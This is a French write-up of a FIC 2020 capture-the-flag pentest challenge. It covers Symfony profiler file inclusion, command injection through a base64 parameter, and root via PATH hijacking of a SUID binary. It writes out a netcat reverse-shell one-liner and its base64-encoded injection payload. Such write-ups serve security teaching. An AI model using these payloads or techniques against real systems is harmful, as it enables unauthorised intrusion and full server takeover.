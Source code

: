 # What The FIC

## Découvrez les solutions d’un des challenges pentest proposés au FIC 2020.  

### Enoncé : Vous avez accès à une machine d’attaque, et vous devez prendre le contrôle complet du server victime

### Niveau : Moyen

### Temps : 20/25 mns

### Description

L'utilisation d'une API/SPA (Single Page Application) ne veut pas dire que vous êtes en sécurité.
Trouvez votre chemin pour devenir root.

# Solution 

Le participant devait lancer la commande suivante de façon à identifier les ports ouverts sur la machine : `nmap -sV -Pn -p- 192.168.1.24`

Suite à cela, il remarque que les ports 4201, 8000 et 22 sont disponibles.


Sur le port 4201 après lecture des fichiers javascripts, nous trouvons une interface web codée en Angular.

![Login page](images/loginpage.png)
**Source: Orange Cyberdefense**


Suite à la soumission de données de test, nous voyons que notre SPA discute avec une API sur le port 8000 utilisant le framework symfony. Le but de l'attaquant est donc de trouver un compte pour voir ce qu'il se cache derrière cette API.
Tout d'abord, il faut savoir que sur ce framework backend, il est de coutume de créer des fichiers de type `Fixture`.


Ces fichiers servent à agrémenter la base de donnée à l'aide d'object php. Par la suite les développeurs jouent avec les migrations pour faire évoluer la base.

Par ailleurs, les personnes qui sont familières avec symfony savent qu'il est possible d'utiliser le profiler de la façon suivante : `http://<target>/app_dev.php/_profiler/open?file=<PATH>` pour faire une "Local File Inclusion"(LFI).

Pour cela, il y avait deux façons de faire : 

* La première consiste à profiter de la négligence du développeur qui a laissé le profiler de symfony sur un environnement de production ce qui lui permet, via une LFI, de lire des fichiers. 


En l'occurrence, il lui fallait trouver le fichier `Fixture.php` dans `src/AppBundle/DataFixture/ORM/`

Il obtenait donc l'utilisateur `clemence97`


![LFI](images/LFI.png)
*Source: Orange Cyberdefense*

* La seconde possibilité était d'utiliser un outil de fuzzing type Gobuster/dirsearch pour trouver la route suivante : 

![Account](images/account.png)
*Source: Orange Cyberdefense*

Une fois le compte obtenu, il suffit de se connecter sur la webapp pour se rendre compte qu'il existe un bouton `check status` qui va sûrement vérifier la disponibilité du serveur.


![Send base64](images/sendb64.png)
*Source: Orange Cyberdefense*

En regardant de plus près la requête, nous nous apercevons qu'une chaine de caractère en base64 est envoyée au serveur en paramètre `GET`.

Lorsqu'on décode celle-ci `echo "bG9jYWxob3N0" | base64 --decode`, nous obtenons: `localhost`

Nous supposons qu'un ping est effectué et allons donc essayer de faire de l'injection de commande pour obtenir un reverse shell sur la machine.

Pour cela, nous créons un serveur d'écoute (192.168.1.24 sur le port 1337) qui réceptionnera notre connexion.
Puis nous encodons le reverse shell suivant en base64: `;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.1.24 1337 >/tmp/f` 
Nous obtenons alors ce payload : `O3JtIC90bXAvZjtta2ZpZm8gL3RtcC9mO2NhdCAvdG1wL2Z8L2Jpbi9zaCAtaSAyPiYxfG5jIDE5
Mi4xNjguMS4yNCAxMzM3ID4vdG1wL2YK` et l'ajoutons dans le paramètre vulnérable.

![ls](images/ls-fic2.png)
*Source: Orange Cyberdefense*

Une fois le shell obtenu, il suffit de se rendre dans le home de l'utilisateur giorgio pour récupérer le contenu du fichier `user.txt` : `OCD{T4ke_Car3_4b0ut_RIghtS}`


## Elévation de privilèges 

A ce stade du challenge, le candidat se rend compte que les droits du shell obtenus sont limités (Utilisateur `giorgio`). Il devra ainsi élever ses privilèges afin d'obtenir les privilèges `root` et par la même occasion le dernier flag du challenge. 

Suite à de rapides investigations, nous comprenons ce que nous devons exploiter afin d'élever nos privilèges :

![lslah](images/lslah.png)
*Source: Orange Cyberdefense*


Il y a en effet un binaire SUID root nommé  `HarmfulBinary`, ainsi qu'un fichier caché (`.hint.txt`).

Nous essayons d'interagir avec ce binaire afin de déceler d'éventuelles vulnérabilités :

![execute](images/execute.png)
*Source: Orange Cyberdefense*


L'analyse de ce fichier caché *qui fait penser à la sortie de la commande strace sur le binaire* nous permet de déceler un certain nombre d'appels système `execve` intéressants :

![strace](images/strace2.png)
*Source: Orange Cyberdefense*


Le binaire HarmfulBinary essaye d'exécuter sans succès (`No such file or directory`) un autre binaire appelé `reallysuspiciousbin` via plusieurs chemins différents. Ces chemins utilisés nous font penser à la variable d'environnement `PATH`. Nous vérifions cela en affichant le contenu de cette variable d'environnement :

![path](images/path.png)
*Source: Orange Cyberdefense*


L'utilisateur giorgio maîtrisant cette variable d'environnement qui lui est propre, l'idée de cette étape est tout d'abord de modifier cette variable d'environnement afin d'inclure un chemin qu'on maîtrise (sur lequel on a les droits d'écriture) :

![setpath](images/setpath.png)
*Source: Orange Cyberdefense*


Il est possible de vérifier que le binaire `/home/giorgio/reallysuspiciousbin` est bien appelé (mais n'est pas trouvé car le binaire n'existe pas dans `/home/giorgio`) en réitérant la commande `strace`. L'idée est maintenant de créer un binaire malveillant appelé `reallysuspiciousbin` dans notre répertoire personnel pour qu'il soit exécuté avec les droits root lors de l'appel au binaire `HarmfulBinary`. 


Pour cela, nous utiliserons un binaire compilé en C. Il n'est pas possible d'utiliser un script du fait que le Kernel supprime les droits suid sur des fichiers de type script.

Le rôle de ce binaire est de créer un interpréteur Bash avec les droits suid root :

![c](images/c.png)
*Source: Orange Cyberdefense*


Notre binaire `reallysuspiciousbin` étant prêt, il suffit de réexecuter de nouveau le binaire SUID `HarmfulBinary` pour activer notre payload :

![root](images/root.png)
*Source: Orange Cyberdefense*


Il ne nous reste plus qu'à exécuter via la commande suivante `cat /root/root.txt` pour obtenir le flag `OCD{Priv3esc_Is_Life_M@mene}`
